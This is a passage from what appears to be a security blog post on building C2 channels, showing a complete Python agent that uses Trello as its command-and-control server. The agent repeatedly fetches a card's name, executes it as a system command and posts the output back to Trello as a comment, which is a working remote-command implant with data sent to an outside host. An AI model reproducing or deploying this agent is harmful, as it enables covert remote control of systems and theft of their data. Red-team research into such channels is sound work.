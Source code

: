 From there we can get the cards using the following API:
[https://api.trello.com/1/lists/id/cards?key=key&token=token](https://api.trello.com/1/lists/id/cards?key=key&token=token)
### Agent
```python
import requests
import json
import subprocess

API_KEY = "REDACTED"
TOKEN = "REDACTED"
CARD_ID = "REDACTED"

def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output

while True:
    card_url = f"https://api.trello.com/1/cards/{CARD_ID}"
    comment_url = f"https://api.trello.com/1/cards/{CARD_ID}/actions/comments"
    headers = {
    "Accept": "application/json"
    }
    query = {
    'key': API_KEY,
    'token': TOKEN
    }
    response = requests.request(
    "GET",
    card_url,
    headers=headers,
    params=query
    )
    response_json = response.json()
    if response_json.get('name') == "nothing":
        continue

    output = Exec(response_json.get('name')).decode()
    data = {
        "text":output
    }
    requests.post(comment_url,params=query,headers=headers,data=data)
    requests.put(card_url,params=query,headers=headers,data={"name":"nothing"})
```
Here we make use of the card ID we got earlier. Then we use the corresponding API to get the name of the card and if it's not set to `nothing`:

![trello](/assets/img/posts/2024-02-23-c2-all-the-things/trello-2.png)
